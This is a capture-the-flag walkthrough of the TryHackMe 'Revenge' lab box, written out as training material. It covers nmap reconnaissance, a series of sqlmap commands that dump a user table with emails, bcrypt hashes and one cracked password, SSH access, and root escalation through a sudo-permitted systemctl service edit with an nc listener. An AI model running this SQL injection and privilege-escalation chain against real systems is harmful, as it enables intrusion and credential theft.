 In this walkthrough, we'll go over a challenge (intermediate) level box called ***Revenge*** on [TryHackMe](https://tryhackme.com/room/revenge)

![Revenge](revengeIP.png)

Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.90.135 --open
```
We see that a bunch of ports are open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-19 09:22 EDT
Nmap scan report for 10.10.90.135
Host is up (0.32s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 72:53:b7:7a:eb:ab:22:70:1c:f7:3c:7a:c7:76:d9:89 (RSA)
|   256 43:77:00:fb:da:42:02:58:52:12:7d:cd:4e:52:4f:c3 (ECDSA)
|_  256 2b:57:13:7c:c8:4f:1d:c2:68:67:28:3f:8e:39:30:ab (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Home | Rubber Ducky Inc.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.75 seconds
```
![Revenge index](revenge-index-html.png)

For this challenge, we can use BurpSuite to scan for any type of vulnerability:
![Revenge Burp](revenge-sqli.png)

And BurpSuite identifies a SQL injection vulnerability. We can now use sqlmap to extract more information:

We can pull the banner information `sqlmap -u http://10.10.90.135/products/1`:
![Revenge sqli banner](revenge-sqmap-banner.png)

We can pull the database information `sqlmap -u http://10.10.90.135/products/1 --dbs`:
![Revenge sqli dbs](revenge-sqlmap-dbs.png)

listing available tables `sqlmap -u http://10.10.90.135/products/1 -D duckyinc --tables`:

![Revenge sqli tables](revenge-sqlmap-tables.png)

listing available columns within the user table `sqlmap -u http://10.10.90.135/products/1 -D duckyinc -T user --columns`:
![Revenge sqli columns](revenge-sqlmap-columns.png)

looking into "system_user" table `sqlmap -u http://10.10.90.135/products/1 -D duckyinc -T system_user --columns`:
![Revenge sqli system user](revenge-sqlmap-columns-2.png)

We can now dump all the data from the system_user table `sqlmap -u http://10.10.90.135/products/1 -D duckyinc -T system_user -C _password,email,id,username --dump`:
![Revenge sqli dump system user](revenge-sqlmap-system-user.png)

username | email | password hash | password
----------- | --------- | ------------ | ----------
server-admin | sadmin@duckyinc.org | \$2a\$08\$GPh7KZcK2kNIQEm5byBj1umCQ79xP.zQe19hPoG/w2GoebUtPfT8a | inuyasha
kmotley | kmotley@duckyinc.org | \$2a\$12\$LEENY/LWOfyxyCBUlfX8Mu8viV9mGUse97L8x.4L66e9xwzzHfsQa | 
dhugles | dhughes@duckyinc.org | \$2a\$12\$22xS/uDxuIsPqrRcxtVmi.GR2/xh0xITGdHuubRF4Iilg5ENAFlcK

Since we have a set of valid credentials for server-admin user, we can try to SSH into the machine:
![Revenge foothold](revenge-initial-foothold.png)

We can check what this user can run with "sudo -l" command and we see that server-admin could run /bin/systemct commands as root:
![Revenge sudo -l](revenge-sudo-l.png)

After that we edit "/tec/systemd/system/duckyinc.service"
![Revenge edit service](revenge-edit-service.png)

We can now start a nc listener on port 5555 and on the command line run the following command to relaod and restart the service:
1. `sudo /bin/systemctl enable duckyinc.service`
2. `sudo /bin/systemctl daemon-reload`
3. `sudo /bin/systemctl restart duckyinc.service`

![Revenge root](revenge-root.png)

We now have a shell with the root user privileges.

I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthroughs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
